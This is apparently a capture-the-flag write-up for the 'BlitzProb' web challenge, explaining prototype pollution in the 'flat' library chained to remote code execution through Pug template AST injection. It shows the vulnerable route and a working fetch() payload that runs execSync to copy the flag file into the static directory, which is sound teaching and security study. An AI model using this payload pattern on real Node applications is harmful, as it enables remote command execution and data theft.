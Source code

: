 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a _Prototype Pollution_ to RCE via _AST Injection_. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

Upon visiting the entry point, we are greeted with a aesthetic, futuristic looking feedback form. We are provided with a list of songs from a famous alien band named __Blitz Prop__ and asked to choose our favorite.

![](/assets/img/blitzProb_web.png#center)
## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the `unflatten` function is the only thing processing our input. It turns the JSON that is send to it back into an object. What if we could write or overwrite other items in Node's object space?

The vulnerable code of the challenge:
``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```
After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a _Prototype Pollution_ vulnerability. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. 

How do we exploit this? There are no _if_ branches to bypass in the code. The default object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own functions.

**Note:** This is because function definitions are not valid JSON.<br>You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "Foo"' }` but it will eventually break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement anywhere in our application. Maybe Pug?

The `pug.compile` function converts a _string_ into a template _function_ and passes the _object_ for reference. It is a method to check the use of pug template engine in a black-box environment using prototype pollution.

When we insert AST into the `Object.prototype.block`, the compiler adds it to the buffer by referring to the value... (be sure to read the previously mentioned blog for a detailed explanation)... AST generated by `pug-parser` is passed to the `pug-code-gen` and made into a function and finally, it will be executed.
## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":
```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```
The flag file has been written to the _static_ directory (the only place where we have write access). After visiting `static/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶
